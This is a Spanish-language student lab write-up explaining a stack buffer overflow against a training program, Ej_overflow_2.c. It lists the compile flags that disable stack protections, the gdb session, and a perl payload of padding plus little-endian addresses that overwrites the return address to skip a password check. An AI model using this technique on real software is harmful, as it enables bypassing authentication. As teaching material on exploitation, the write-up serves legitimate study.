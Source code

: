 #### Explicación del TP2:
En este trabajo logramos pisar la direccion de rotorno del programa Ej_overflow_2.c

Utilizamos Linux Mint 20 (Ubuntu 64 bits), y compilados el archivo con los siguientes flags:

<em><strong> gcc -m32 -no-pie -fno-stack-protector -ggdb -mpreferred-stack-boundary=2 -z execstack -o pisar Ej_overflow_2.c </strong></em>

Una vez compilado el archivo, obtenemos un ejecutable llamado "pisar" y lo corremos en gdb:

<em><strong> gdb -q pisar </strong></em>

Luego, procedemos a correr el programa con la siguiente entrada:

<em><strong> run $(perl -e 'print "A"x20 ."\x01\xc0\x04\x08"."\x18\xd1\xff\xff"."\xdc\x92\x04\x08" ') </strong></em>

Lo que se está haciendo es:
1. Llenar password_buffer con 16 caracteres "A".
2. Pisar la variable entera auth_flag con 4 caracteres "A". 
3. Manter los 4 Bytes de proteccion con el mismo valor (01c00408h). 
4. Mantener el puntero EBP (18d1ffffh). 
5. Pisar la direccion a donde tiene que retorar la funcion "check_authentication" con el valor dc920408h. Siendo este la dirección de la instruccion donde se hace un print a "Acceso Permitido..!!".


NOTA: Tener en cuenta que el procesador trabaja con la secuencia de orden Little Endian, por lo que las direcciones en los pasos 3, 4 y 5 están escritas en orden de "LSB --> MSB".
